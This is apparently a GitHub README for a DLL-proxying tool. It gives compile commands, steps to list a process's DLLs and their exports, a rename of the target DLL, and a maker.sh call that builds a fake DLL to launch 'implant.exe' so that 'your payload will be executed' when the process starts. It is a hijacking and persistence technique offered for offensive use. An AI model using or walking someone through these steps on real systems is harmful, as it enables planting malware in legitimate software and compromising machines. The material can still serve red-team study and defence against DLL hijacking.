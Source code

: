# DLL Proxy

This project provides a simple method to create a proxy DLL using three main files:

- **dll-extractor.cpp**: Lists all currently loaded DLLs in a running process.

- **function-extractor.cpp**: Extracts the exported functions from DLL.

- **maker.sh**: Adds the extracted functions into a template for creating a fake (proxy) DLL.


# How to Use

**Step 1***
Compile dll-extractor.cpp and function-extractor.cpp.
```bash
x86_64-w64-mingw32-g++ dll-extractor.cpp -o dll-extractor.exe
```
```bash
x86_64-w64-mingw32-g++ function-extractor.cpp -o function-extractor.exe -ldbghelp
```

***Step 2***
Transfer the compiled files to a Windows system and run them there.
```cmd
dll-extractor.exe TARGET-PROCSS
```
```cmd
function-extractor.exe c:\PATH\example.dll
```

***Step 3***
Copy the extracted function names to file.txt.
![expample file.txt](img/img1.png)

renaming the target DLL(for example, by adding a letter like "1" or "2" to its name in target system).
```cmd
ren c:\PATH\example.dll c:\PATH\example1.dll
```

`-d`: the path to the same DLL that was renamed).
```bash
./maker.sh -d "c:\PATH\example1.dll" -o output.cpp -p "c:\PATH\implant.exe" file.txt
```


Note: If the DLL path contains spaces, make sure to wrap it in double quotes `" "`.

***Step 4***
Compile output.cpp using the original name DLL `example.dll` and place it next to the original DLL.
After the process is launched,your payload will be executed.


You can also move the original DLL to a different folder, but make sure to define its new path correctly inside maker.sh.
